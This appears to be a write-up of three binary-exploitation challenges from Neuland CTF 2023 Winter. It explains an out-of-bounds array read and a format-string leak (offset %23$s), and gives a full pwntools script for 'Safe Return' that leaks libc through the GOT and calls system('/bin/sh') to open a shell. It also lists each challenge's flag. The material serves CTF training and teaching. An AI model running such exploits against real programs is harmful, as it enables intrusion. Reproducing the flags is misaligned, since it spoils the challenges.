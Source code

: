 ```yaml
---
title: "Neuland CTF 2023 Winter - PWN/Binary Exploitation"
authors: ["Neuland CTF Orga"]
date: 2023-12-09T21:00
published: true
tags:
- CTF
- Writeup
- Cybersecurity
---
```


</br>

Download challenges: [Neuland CTF Repository](https://github.com/neuland-ingolstadt/Neuland-CTF-2023-Winter)

</br>

## Higher and Lower - Easy
*No one has guessed my number yet, maybe you can find another way to get the flag.*

[higher_lower.c](/files/neuland-ctf-12-2023/higher_lower.c)

</br>

The program is the well-known children's game higher or lower. However, as the author teases in the description, there is probably no way to win the game fairly. In the enclosed C code, the flag is initially defined and then referenced in the main. Furthermore, the inefficient design decision was made to use an array to select the numbers. Our guessed number is used as an index for this array, and the respective position is output. Since the flag variable in the stack is right next to the array, and the input is not sanitized, we might have a chance to query the flag above it. Depending on the compiler, we print the segment by calling index *-1* or *11*, which is no longer in the array but outputs the surrounding variables.

</br>

The flag is `nland{practical_application_abandoned}`.

</br>

## Secure4Sure - Easy
*Works as intended?*

[Secure4Sure.c](/files/neuland-ctf-12-2023/Secure4Sure.c)

</br>

We get C code, which appears to be the login for Secure4Sure. The user can enter an access code, and the program compares it with the hardcoded string at the beginning of the program. The user input looks like a suitable attack vector because it is printed later in the program. The fgets() function reads a line of the specified input stream and stores it in the buffer variable. These are the perfect conditions for a format string attack that uses printf() features. For example, the string to be output can be manipulated using special commands such as *%s* or *%d*. `printf("My %s is", name)`. *%s* which expects a string is replaced by the contents of the name variable. Printf() reads the previous address from the stack. So if we typed *printf(%s %s)* we would get the last two strings on the stack. However, if this input is longer than the maximum length defined in fgets(), we get a segment fault. Another string format feature is *%&lt;nth address>$s*, which jumps directly to the specified point in the stack. If we write *%p* as input, the program returns the pointer address. With this address, you can look at the stack and calculate the offset. A more straightforward method that does not require precise knowledge of the stack and how it works is fuzzing. Here, you can try out all offsets until the access code is output. With the locally used compiler, the correct offset was *%23$s*.

![](../src/blog/images/neuland-ctf-12-2023/Secure4Sure.webp)

</br>

The flag is `nland{DIN13432}`.

</br>

## Safe Return - Hard
Author: [Jonny](https://github.com/Baikuya)</br>

*There is always a safe place to return :).*

[Safe_Return.c](/files/neuland-ctf-12-2023/Safe_Return.c)

</br>

```
from pwn import *

p = process("./Safe_Return")
write_addr = 0x08049291
puts_addr = 0x08049245
hello_addr = 0x0804a008
got_read = 0x0804c004
p.send(b"A"*0x34)
p.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recv(4)
ebp_bytes = p.recv(4)
ebp = u32(ebp_bytes)
print(hex(ebp))
safe_function = 0x080491b6
ret_nop=0x080491e4
p.recvuntil(b"\n")
payload = b"A"*0x48+p32(ebp)+p32(puts_addr)+p32(got_read)+p32(0)*2+p32(safe_function)
payload += b"A"*(0x80-len(payload))

p.send(payload)
read_leak = u32(p.clean(timeout=1)[:4])
read_offset = 0x0011e0a0
print(hex(read_leak))
libc_base = read_leak-read_offset
print(hex(libc_base))

system = libc_base + 0x0004f600
payload = b"A"*0x48+p32(ebp)+p32(system)+p32(0)+p32(ebp+20)+b"/bin/sh\x00"
payload += b"A"*(0x80-len(payload))
p.send(payload)

p.interactive()
```

</br>

The flag is `nland{G0_TO_J0NNy_And_Say_KinkoFe}`.

